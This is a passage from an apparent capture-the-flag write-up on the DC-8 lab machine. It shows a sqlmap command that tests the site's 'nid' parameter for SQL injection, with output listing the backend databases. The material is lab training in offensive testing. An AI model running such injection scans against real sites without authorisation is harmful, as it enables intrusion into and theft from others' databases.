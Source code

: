 ~~~
~~~

### SQL injection vulnerability

On the main page, there are links on the left that are supposed to point to pages, but none of them is really working. They are built as follows:

* http://dc-8/?nid=1
* http://dc-8/?nid=2
* http://dc-8/?nid=3

![links.png](files/links.png)

Let's test if this is vulnerable to injection:

~~~
kali@kali:/data/DC_8/files$ sqlmap -u http://dc-8/?nid=3 --dbs

[REDACTED]

available databases [2]:                                                                                                                                                                                                                   
[*] d7db
[*] information_schema

[18:19:23] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 25 times
[18:19:23] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/dc-8'

[*] ending @ 18:19:23 /2020-10-11/
~~~